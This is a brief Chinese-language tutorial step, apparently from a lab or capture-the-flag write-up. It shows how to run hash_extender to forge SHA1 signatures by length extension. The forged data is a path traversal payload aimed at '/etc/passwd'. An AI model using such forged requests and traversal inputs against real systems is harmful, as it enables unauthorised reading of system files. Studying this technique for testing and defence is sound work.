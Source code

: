  - 首先运行不带参数的 ./hash_extender 以查看语法   
  
 ![0](image/语法.png)   
   
 - 运行以下命令会得到一些文件名和哈希值来进行尝试:   
 `./hash_extender -f sha1 --data 'test' -s dd03bd22af3a4a0253a66621bcb80631556b100e --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > signatures-n-strings.out`    

